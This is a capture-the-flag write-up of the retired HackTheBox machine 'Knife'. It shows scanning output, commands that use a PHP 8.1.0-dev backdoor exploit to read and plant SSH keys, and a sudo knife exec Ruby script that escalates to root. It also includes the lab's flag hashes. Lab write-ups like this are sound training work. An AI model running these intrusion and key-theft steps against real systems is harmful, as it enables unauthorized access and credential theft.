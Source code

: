 Title:HTB: Knfie
Date: MM-16-2021 09:20
category:security
tags:security, boot2root, HTB, linux, php, chef
meta:security, boot2root, HTB, linux, php, chef

<img class="align-left" src="/media/2021.xx/knife_card.png" alt="Knife card" width="262">

This is a writeup about a retired HacktheBox machine:
[Knife](https://www.hackthebox.eu/home/machines/profile/347) published on
May 22 2021 by
[MrKN16H](https://www.hackthebox.eu/home/users/profile/98767)
This box is classified as an easy machine. This box implies a PHP dev backdoor
and a misconfigured `sudo` permission for `knife` a
[chef](https://docs.chef.io/) utility.

<!-- PELICAN_END_SUMMARY -->

# User

## Recon

We start with an nmap scan. Only port 22 (SSH) and port 80 (HTTP) are open.

    :::text
    # Nmap 7.91 scan initiated Tue May 25 12:12:19 2021 as: nmap -sSV -p- -A -oN notes.md 10.129.151.250
    Nmap scan report for 10.129.151.250
    Host is up (0.012s latency).
    Not shown: 65533 closed ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
    |   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
    |_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
    80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    |_http-title:  Emergent Medical Idea
    <SNIP>

## Web

On the port 80 there is a simple website with no real content. Running `nikto`
on it show that the PHP version used is 8.1.0-dev.

    :::text
    └─$ nikto -h http://10.129.151.250/
    - Nikto v2.1.6
    ---------------------------------------------------------------------------
    + Target IP:          10.129.151.250
    + Target Hostname:    10.129.151.250
    + Target Port:        80
    + Start Time:         2021-05-25 12:15:53 (GMT-4)
    ---------------------------------------------------------------------------
    + Server: Apache/2.4.41 (Ubuntu)
    + Retrieved x-powered-by header: PHP/8.1.0-dev
    + The anti-clickjacking X-Frame-Options header is not present.
    + The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
    + The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
    + No CGI Directories found (use '-C all' to force check all possible dirs)
    + Web Server returns a valid response with junk HTTP methods, this may cause false positives.

This specific 8.1.0-dev PHP version is vulnerable to a [backdoor RCE](https://packetstormsecurity.com/files/162749/php_8.1.0-dev.py.txt)

Using the exploit script we can directly execute command on the system. A few
enumeration show that we are running command as `james` and we can grab his SSH
private key.

`└─$ python3 rce.py -u http://10.129.151.250/ -c 'cat  /home/james/.ssh/id_rsa' > id_rsa`

A quick edit allows us remove the "result" from the python script then we use
`chmod 600` to fix the SSH key right and avoid the permission warning. Then we
add the key to the `authorized_keys` file still using the PHP backdoor.

`└─$ python3 rce.py -u http://10.129.151.250/ -c 'cat  /home/james/.ssh/id_rsa.pub > /home/james/.ssh/authorized_keys'`

We can then connect as `james` on the box and grab the user flag.

    :::text
    └─$ ssh james@10.129.151.250 -i id_rsa
    <SNIP>
    james@knife:~$ cat user.txt
    39169b04d1705adad09a0ba6aafe5363

# Root

We look at our permission on the box and found that we can run `/usr/bin/knife`
on the box. This is a symlink to a ruby script used by
[chef](https://docs.chef.io/).

    :::text
    james@knife:~$ sudo -l
    Matching Defaults entries for james on knife:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User james may run the following commands on knife:
        (root) NOPASSWD: /usr/bin/knife

Look at the [Knife documentation](https://docs.chef.io/workstation/knife_exec/)
we found that `knife exec` can execute ruby scripts. We execute the `id` command
to validate that we are running as root and then create the `.ssh` folder and
add james' SSH key to the `authorized_keys`.

    :::text
    james@knife:~$ cat h.rb
    puts "Hello World"
    system "id"
    system "mkdir -p /root/.ssh/"
    system "cp /home/james/.ssh/authorized_keys /root/.ssh/"

    james@knife:~$ sudo /usr/bin/knife exec h.rb -VVV
    Hello World
    uid=0(root) gid=0(root) groups=0(root)

We can then connect as root on the box (either from our kali or directly from the box)
and grab the root flag.

    :::text
    └─$ ssh root@10.129.151.250 -i id_rsa
    <SNIP>
    root@knife:~# cat root.txt
    9c158f53231321d8fdf47e3f431b0a77

# Wrapping up

A really easy box perfect for new comers.
